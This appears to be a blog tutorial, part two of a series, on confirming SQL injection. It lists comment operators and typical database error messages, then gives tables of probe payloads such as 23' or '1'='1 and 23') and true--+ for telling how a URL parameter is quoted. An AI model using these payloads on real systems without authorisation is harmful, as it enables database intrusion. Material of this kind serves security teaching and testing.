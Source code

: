 ```yaml
---
coverImage: "network_for_hackers.jpg"
title: Basic of SQL for SQL Injection part 2
publishDate: 2017-02-25
updateDate: 2014-05-05
author: Abhinav Kumar
image:   '~/assets/images/SQli.jpg'
excerpt: Learn SQL Injection.
draft: false
category: WebAppSec
---
```


Welcome to the second part of basics of SQL for SQL injection. We took this url `http://fakesite.com/report.php?id=23` as an example and then assumed some basic queries by looking at the URL. Our queries were:

```sql
select \* from table\_name where id=23
select \* from table\_name where id='23'
select \* from table\_name where id="23"
select \* from table\_name where id=(23)
select \* from table\_name where id=('23')
select \* from table\_name where id=("23")
```

You may also encounter your input under the columns or group/order by statements but they are not common, so we will discuss them later on. Now lets continue to next step how to test with different input and know which of the above query are we dealing with.

before we start we must know different types of comments used in SQLi.
```sql
| Comment |  | Name |
| --- | --- | --- |
| \-- | : | MySQL Linux Style |
| \--+ | : | MySQL Windows Style |
| # | : | Hash (URL encode while use) |
| \--+- | : | SQL Comment |
| ;%00 | : | Null Byte |
| \` | : | Backtick |
```

So now lets start with out next phase. All what we need to do is input different injections and see how Application acts on it.

_**Information**_ Remember whenever the input is enclosed with single quotes only single quote with input will create error. When input is enlcosed by double quotes a double qoute with input will give error. When Input is not enlcosed with anything single quote and double quote both will give error.

First of all we can try our input with some injections to see if we get any error. Error may always not be real SQL error it may be some times generic error or change in output of the application. All you have to do it recognise it.

**MySQL Error Style**:
```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```
**MSSQL ASPX Error**:
```sql
Server Error in '/' Application
```
**MSAccess (Apache PHP)**:
```sql
Fatal error: Uncaught exception 'com\_exception' with message Source: Microsoft JET Database Engine
```
**MSAccesss (IIS ASP)**:
```sql
Microsoft JET Database Engine error '80040e14'
```
**Oracle Error**:
```sql
ORA-00933: SQL command not properly ended
```
**ODBC Error**:
```sql
Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
```
**PostgreSQL Error**:
```sql
PSQLException: ERROR: unterminated quoted string at or near "'" Position: 1
or
Query failed: ERROR: syntax error at or near
"'" at character 56 in /www/site/test.php on line 121.
```
**MS SQL Server: Error**:
```sql
Microsoft SQL Native Client error %u201880040e14%u2019
Unclosed quotation mark after the character string
```
Now i will show you different tests to create errors and confirm which query is working inside the Application while using the same example `http://fakesite.com/report.php?id=23` url, You can perform these tests and check the reactions of the application:

```sql
select \* from table\_name where id=23

| Input |  | Reaction if its Intiger Based Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| " | : | Should cause error or no output |
| 23 or 1=1 | : | Any Output should come but may be different output |
| 23 and 1=1 | : | Same output should come |
| 23 and false | : | No output |
| 23 and true | : | Same Output |
| 23--+ | : | Same output. I used --+ to comment, later i ll show how to know which one to use |
| 23 and true--+ | : | Same output |
```

If the Web application reacts same as shown above then you can make sure that the injection is intiger type. Now lets test for single quote enclosed input query.

```sql
select \* from table\_name where id='23'

| Input |  | Reaction if its Single Qoute Based Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| 23" | : | No error Same output |
| 23' or '1'='1 | : | Any Output should come but may be different output |
| 23' and '1'='1 | : | Same output should come |
| 23' and false--+ | : | No output |
| 23' and true--+ | : | Same Output |
```

If the Web application reacts same as shown above then you can make sure that the injection is single quote type. Now lets test for double quote enclosed input query.

```sql
select \* from table\_name where id="23"

 

| Input |  | Reaction if its Double Qoute Based Injection |
| --- | --- | --- |
| 23' | : | No error Same output |
| 23" | : | \>It should cause error or no output |
| 23" or "1"="1 | : | Any Output should come but may be different output |
| 23" and "1"="1 | : | Same output should come |
| 23" and false--+ | : | No output |
| 23" and true--+ | : | Same Output |
```

If the Web application reacts same as shown above then you can make sure that the injection is Double quote type. Now lets test for bracket enclosed initger based input query.

```sql
select \* from table\_name where id=(23)

 

| Input |  | Reaction if its Intiger Based Bracket enclosed Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| " | : | Should cause error or no output |
| 23 or 1=1 | : | Output should come but may be different output |
| 23 and 1=1 | : | Output should come but may be different output |
| 23 and false | : | No output |
| 23 and true | : | Same Output |
| 23--+ | : | Error or No output. Here you can understand that any Bracket is used |
| 23)--+ | : | Same output |
| 23) and false--+ | : | No output |
| 23) and true--+ | : | Same output |
```
If the Web application reacts same as shown above then you can make sure that the injection is Intiger type with bracket Query. Now lets test for bracket enclosed Single Quote based input query.

```sql
select \* from table\_name where id=('23')

 

| Input |  | Reaction if its bracket enclosed Single Quote based Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| 23" | : | No error Same output |
| 23' or '1'='1 | : | Any Output should come but may be different output |
| 23' and '1'='1 | : | Any Output should come but may be different output |
| 23' and false--+ | : | No output or error |
| 23' and true--+ | : | No output or error |
| 23') and False--+ | : | No output |
| 23') and true--+ | : | Same Output |
| 23') or true--+ | : | Output will come but may be different |
```

If the Web application reacts same as shown above then you can make sure that the injection is bracket enclosed Single Quote based input query. Now lets test for bracket enclosed double Quote based input query.

```sql
select \* from table\_name where id=("23")

 

| Input |  | Reaction if its bracket enclosed Double Quote based Injection |
| --- | --- | --- |
| 23' | : | No error Same output |
| 23" | : | Error or No output |
| 23" or "1"="1 | : | Any Output should come but may be different output |
| 23" and "1"="1 | : | Any Output should come but may be different output |
| 23" and false--+ | : | No output or error |
| 23" and true--+ | : | No output or error |
| 23") and False--+ | : | No output |
| 23") and true--+ | : | Same Output |
| 23") or true--+ | : | Output will come but may be different |
```

If the Web application reacts same as shown above then you can make sure that the injection is bracket enclosed double Quote based input query.

So here we just learn to check which query is working inside the application, in the next tutorial we will learn two things how to use the right comment operator and how and why to find the number of columns.
